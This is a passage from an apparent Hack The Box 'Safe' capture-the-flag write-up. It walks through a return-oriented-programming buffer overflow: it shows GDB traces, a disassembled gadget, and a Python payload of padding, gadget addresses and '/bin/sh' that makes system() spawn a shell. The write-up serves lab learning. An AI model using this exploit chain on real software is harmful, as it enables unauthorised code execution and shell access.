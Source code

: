 {% highlight shell %}
Initial system call:
system@plt (
   $rdi = 0x0000000000402008 → "/usr/bin/uptime",
   $rsi = 0x00007fffffffe268 → 0x00007fffffffe549 → "/root/Desktop/HTB/Safe/myapp"
)

My system call:
system@plt (
   $rdi = 0x0000000000000000,
   $rsi = 0x0000000000405260 → "What do you want me to echo back? AAAAAAAAAAAAAAAA[...]"
)
{% endhighlight %}

<p>Alright, so I need to find a gadget that can overwrite <code>$rdi</code> to something of my choosing. Going back to the ghidra decompile I found a handy function built in to the app. Despite <code>test()</code> never being called, it does provide us the appropriate gadgets necessary to update <code>$rdi</code>.</p>

{% highlight shell %}
**************************************************************
*                          FUNCTION                          *
**************************************************************
undefined test()
     undefined         AL:1           <RETURN>
     test                                            XREF[3]:     Entry Point(*), 00402060, 
                                                                                  00402108(*)  
00401152 55              PUSH       RBP
00401153 48 89 e5        MOV        RBP,RSP
00401156 48 89 e7        MOV        RDI,RSP
00401159 41 ff e5        JMP        R13
{% endhighlight %}

<p>Now there is one extra complication here. While <code>test()</code>moves the value of <code>$rsp</code> into <code>$rdi</code> like we need, it then jumps to the value of <code>$r13</code> which is currently/will be empty at the moment. We need to chain this call with another gadget that also pops an address off the stack (which we control) into <code>$r13</code>. GDB has a nice ropper function for this exact purpose.</p>

<p>
<img src="{{ '/assets/htb-safe/gdb-ropper.PNG' | relative_url }}">
</p>

<p>Ok so there are three pops as part of this gadget. We need to take that into consideration and include fluff to ensure we get the right address into <code>r13</code> and the rest our stack isn't adversely affected. Thinking about this logically we want to form the exploit as follows:</p>

{% highlight python %}
"A"*120 +                             #fluff until the start of stack
"\x06\x12\x40\x00\x00\x00\x00\x00" +  # pop r13; pop r14; pop r15; ret;
"\x6e\x11\x40\x00\x00\x00\x00\x00" +  #system() - r13
"\x6e\x11\x40\x00\x00\x00\x00\x00" +  #system() - r14
"\x6e\x11\x40\x00\x00\x00\x00\x00" +  #system() - r15
"\x52\x11\x40\x00\x00\x00\x00\x00" +  # test()
"/bin/sh " +                          #command we want to execute 
"C"*100                               #rest of fluff
{% endhighlight %}
